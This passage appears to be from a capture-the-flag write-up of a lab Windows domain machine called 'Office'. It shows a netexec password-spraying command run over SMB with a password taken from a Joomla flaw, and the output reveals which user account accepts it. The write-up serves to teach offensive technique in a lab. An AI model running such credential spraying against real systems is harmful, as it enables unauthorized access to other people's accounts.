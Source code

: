 ![Creds useless in joomla in HTTPS](/assets/images/Office/creds-useless-in-joomla-https.png)

# Access as web_account

Although we don't have access to Joomla, remember we had a valid list of users that we bruteforced with kerbrute. Using those to see which of them can authenticate with the password we grabed in Joomla vulnerability, we can see that we can login with user dwolfe for SMB:

```bash
❯ netexec smb 10.10.11.3 -u valid_users.txt -p 'H0lOgrams4reTakIng0Ver754!' --continue-on-success
SMB         10.10.11.3      445    DC               [*] Windows Server 2022 Build 20348 (name:DC) (domain:office.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.3      445    DC               [-] office.htb\administrator:H0lOgrams4reTakIng0Ver754! STATUS_LOGON_FAILURE 
SMB         10.10.11.3      445    DC               [-] office.htb\Administrator:H0lOgrams4reTakIng0Ver754! STATUS_LOGON_FAILURE 
SMB         10.10.11.3      445    DC               [-] office.htb\ewhite:H0lOgrams4reTakIng0Ver754! STATUS_LOGON_FAILURE 
SMB         10.10.11.3      445    DC               [-] office.htb\etower:H0lOgrams4reTakIng0Ver754! STATUS_LOGON_FAILURE 
SMB         10.10.11.3      445    DC               [+] office.htb\dwolfe:H0lOgrams4reTakIng0Ver754! 
SMB         10.10.11.3      445    DC               [-] office.htb\dmichael:H0lOgrams4reTakIng0Ver754! STATUS_LOGON_FAILURE 
SMB         10.10.11.3      445    DC               [-] office.htb\dlanor:H0lOgrams4reTakIng0Ver754! STATUS_LOGON_FAILURE
```
